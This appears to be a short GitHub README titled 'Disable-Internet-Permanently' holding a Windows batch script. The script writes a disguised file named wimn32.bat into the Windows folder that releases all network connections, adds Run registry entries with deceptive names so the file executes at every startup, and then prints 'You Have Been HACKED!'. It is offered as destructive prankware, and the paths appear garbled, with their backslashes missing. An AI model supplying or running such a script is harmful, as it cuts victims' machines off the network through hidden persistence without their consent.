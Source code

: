 # Disable-Internet-Permanently


Save The File As bat File

echo @echo off>c:windowswimn32.bat
echo break off>>c:windowswimn32.bat
echo ipconfig/release_all>>c:windowswimn32.bat
echo end>>c:windowswimn32.bat
reg add hkey_local_machinesoftwaremicrosoftwindowscurrentv ersionrun /v WINDOWsAPI /t reg_sz /d c:windowswimn32.bat /f
reg add hkey_current_usersoftwaremicrosoftwindowscurrentve rsionrun /v CONTROLexit /t reg_sz /d c:windowswimn32.bat /f
echo You Have Been HACKED!
PAUSE

